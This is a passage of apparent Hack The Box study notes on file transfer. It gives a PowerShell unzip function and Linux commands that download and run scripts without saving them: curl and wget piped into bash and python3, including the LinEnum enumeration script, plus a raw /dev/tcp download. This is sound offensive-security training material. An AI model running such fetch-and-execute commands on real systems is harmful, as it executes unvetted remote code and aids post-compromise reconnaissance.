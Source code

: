 ```powershell
```

--------

#### Powershell unzip function .zip

```powershell
Add-Type -AssemblyName System.IO.Compression.FileSystem
function Unzip
{
    param([string]$zipfile, [string]$outpath)

    [System.IO.Compression.ZipFile]::ExtractToDirectory($zipfile, $outpath)
}

Unzip "C:\a.zip" "C:\a"
```

------
# Linux
-------
##  <span style='color:lightgreen'> Fileless Download </span>
 - Curl
```shell
Sauuron@htb[/htb]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

- Wget
```shell
Sauuron@htb[/htb]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

##  <span style='color:lightgreen'> Download with Bash (/dev/tcp) </span>
- <mark style="background: navy;color:white">As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.</mark>

```c
# Connect to Target WebServer ;
Sauuron@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80

# HTTP Get Request ;
Sauuron@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Print the response ;
Sauuron@htb[/htb]$ cat <&3
```
